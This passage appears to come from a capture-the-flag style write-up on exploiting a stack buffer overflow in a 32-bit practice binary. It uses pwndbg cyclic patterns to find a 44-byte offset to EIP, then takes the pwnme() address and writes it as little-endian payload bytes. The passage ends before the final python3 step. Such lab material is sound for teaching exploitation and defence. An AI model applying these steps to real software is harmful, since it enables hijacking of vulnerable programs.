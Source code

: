* 32-byte buffer&#x20;
* ;)

**What about our offset from `EBP`?**

* Hex `0x2C` is `44` converted to decimal

### Debugging with `pwndbg`

**Let's find out which characters made it into the instruction pointer and at what point it began overwriting data:**

```
cyclic 100
```

Sent to the input:

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

* 'laaa' overwrote the `EIP`

**Confirming `EBP` offset:**

```
cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found offset at offset 44
```

This <mark style="color:yellow;">ended up crashing our program because of a segmentation fault</mark>. This is simply because we exceeded the 32-byte buffer and <mark style="color:yellow;">wrote outside of the memory allocated</mark>.

Further confirming our findings above of `44`.

So, at 44-bytes, we are able to overwrite the instruction pointer (`EIP`).

### Manual Exploitation

**Grabbing the address of `pwnme(`):**

```
disass pwnme
 0x080485ad <+0>:     push   ebp
```

* `0x080485ad`
* We now will place this in little-endian format for our payload

```
\xad\x85\x04\x08
```

**Utilizing python3, we can jump to `pwnme()` once more and see that in the result of our execution:**
